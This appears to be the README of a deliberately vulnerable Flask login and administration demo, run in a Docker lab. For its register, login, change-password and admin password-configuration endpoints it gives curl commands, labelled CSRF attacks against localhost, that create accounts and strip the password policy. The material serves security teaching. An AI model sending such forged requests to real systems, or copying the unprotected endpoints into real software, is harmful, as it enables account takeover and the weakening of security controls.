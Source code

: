 # Safe Register & Login Administration

__Unsafe mode for Demonstration.__

Build with:

__BACKEND:__ _Python 3.9 & Flask_

__FRONTEND:__ _JS, HTML & CSS_

__INTEGRATIONS:__ _Jinja2_

Deployed over Docker, inorder to contain a safety lab environment

## Endpoints

**Home**

* Point for demonstrate a CSRF attacks

**User**

* Registration
* Login
* Change Password
* Logout

**Admin**

* Admin's Menu
    * View all Users List
    * Change Password Configuration

## Home

endpoint: `/`\
![Home](https://user-images.githubusercontent.com/71320956/128612948-87c16955-b0cb-451b-95ac-9ef09cde5ca4.PNG)


## User

### Register

User Register by given _Name_, _E-mail_, _Password_ and _re-Password_

__methods:__ `GET`, `POST`\
__endpoint:__ `/users/register`
![Register](https://user-images.githubusercontent.com/71320956/128612974-48a73d9a-335d-43ee-85d8-12c54adee72f.PNG) \

__CSRF attack on endpoint:__\
````
$ curl -X POST -F 'username=Hacker' -F 'email=yougot@HACKED.com' 
-F 'password=AAaa1212@!12' -F 're_password=AAaa1212@!12' 
http://127.0.0.1:5000/users/register
````
\
__Result of attack:__\
![HackerRegistrationDB](https://user-images.githubusercontent.com/71320956/128612992-0c331aad-93c2-46d2-97a6-5ffe32c645da.PNG)


### Login

User Login by given _Name\Email_ and _Password_

__methods:__ `GET`, `POST`\
__endpoint:__ `/users/login`

![Login](https://user-images.githubusercontent.com/71320956/128613001-3d4da68d-239e-4a2c-9cb8-8ac8b78ef9a1.PNG) \
__CSRF attack on endpoint:__\
````
$ curl -X POST -F 'name_email=Hacker' -F'password=AAaa1212@!12' 
http://127.0.0.1:5000/users/login
````
__Result of attack:__\
![HackerLogin](https://user-images.githubusercontent.com/71320956/128613003-aa2d78aa-4a79-451f-84d6-a0a72b0169df.PNG)

### Change Password

User Change Password by given _Username_, _E-mail_, _New Password_ and _re-Password_

__methods:__ `GET`, `POST`\
__endpoint:__ `/users/change_password`

![ChangePassword](https://user-images.githubusercontent.com/71320956/128613009-17531174-2d74-4d45-a03c-2272917365bc.PNG) \
__CSRF attack on endpoint:__\
````
$ curl -X POST -F 'username=Hacker' -F 'email=yougot@HACKED.com' 
-F 'password=BBbb1212@!12' -F 're_password=BBbb1212@!12' 
http://127.0.0.1:5000/users/change_password
````
__Result of attack:__\
![HackerChangePassword](https://user-images.githubusercontent.com/71320956/128613015-03a99a41-9c0f-45a7-9a0f-826468d10328.PNG) \


### Logout

User Logout

__methods:__ `GET`\
__endpoint:__ `/users/logout`
![AfterUserLogin](https://user-images.githubusercontent.com/71320956/128613030-143e994e-e4ed-4eb4-b8b5-2d9aa5479443.PNG)

## Admin

### Admin's Menu

__methods:__ `GET`\
__endpoint:__ `/admin/menu`

![AdminMenu](https://user-images.githubusercontent.com/71320956/128613037-286c71ef-8872-4de2-9754-b1c94eddbb96.PNG)

### User's List

Display all registered users & __Block/Unblock__ users

__methods:__ `GET`\
__endpoint:__ `/admin/all_users`

![UsersList](https://user-images.githubusercontent.com/71320956/128613054-b72342c5-5f27-47d0-b48d-fe734f4b6339.PNG)

### Password Configuration

Change password configuration:

* Length
* Complexity
* History
* Fail attempts

__methods:__ `GET`, `POST`\
__endpoint:__ `/admin/password_config`

![PasswordConfiguration](https://user-images.githubusercontent.com/71320956/128613057-39b79463-7f29-4bdc-bc55-f6d82e6c8a24.PNG) \

__CSRF attack on endpoint:__\
````
$ curl -X POST -F 'upper=0' -F 'lower=0' -F 'digits=0' 
-F 'spec=0' -F 'use_dict=0' -F 'length=0' -F 'history=10' 
-F 'tries=1000'  http://127.0.0.1:5000/admin/password_config
````
